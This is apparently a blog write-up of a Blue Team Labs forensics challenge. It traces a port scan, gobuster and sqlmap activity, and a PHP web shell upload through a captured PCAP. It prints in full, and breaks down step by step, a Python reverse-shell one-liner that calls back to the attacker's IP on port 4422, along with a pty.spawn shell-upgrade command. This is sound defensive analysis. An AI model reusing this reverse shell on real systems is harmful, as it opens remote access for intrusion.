 ```yaml
---
draft: false
author: ladybuginthemug
title: Network Analysis – Web Shell
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-01-06
category:
  - blueteamlabs
---
```


[Network Analysis – Web Shell
](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)

>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to a close-up investigation of streams. 

#### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP**.  By sorting ports we can instantly identify port incrementation which is an indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```bash
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u

Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`


![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and `sqlmap 1.4.7`


![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
#### FILE UPLOAD

**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)

The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```bash
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)

`GET /uploads/ HTTP/1.1` and response `HTTP/1.1 200 OK` with HTML of a simple directory listing page generated by an Apache web server - confirmed it :

```bash
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
....  processed HTML content ....

Title: Index of /uploads

Main Heading: Index of /uploads

[PARENTDIR]	Parent Directory	  -	 
	dbfunctions.php	2021-02-07 16:40	116	 
	myphoto.png	2021-02-07 16:38	7.1K	

Apache/2.4.29 (Ubuntu) Server at 10.251.96.5 Port 80

```

We can spot the first commands used in the web shell :

```bash
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a TCP-based Python reverse shell with connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```bash
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```bash
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```bash
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- When the code executes /bin/sh the shell inherits the redirections and communicates with the remote user via the socket 
```bash
p=subprocess.call(["/bin/sh","-i"]);
```

---

#### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.
However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.
Not only that but also a malicious actor was not even able to clean up trails he left behind in the form of `dbfuncs.php`:

```bash
addcart.php  common.php     consts.php	 editprofile.php  info.php   upload.php
browse.php   complaint.php  dbfuncs.php  index.php	  login.php  uploads
www-data@bob-appserver:/var/www/html$ rrmm  ddbb	funcs.php 

rm: cannot remove 'dbfuncs.php': Operation not permitted
www-data@bob-appserver:/var/www/html$ llss

```

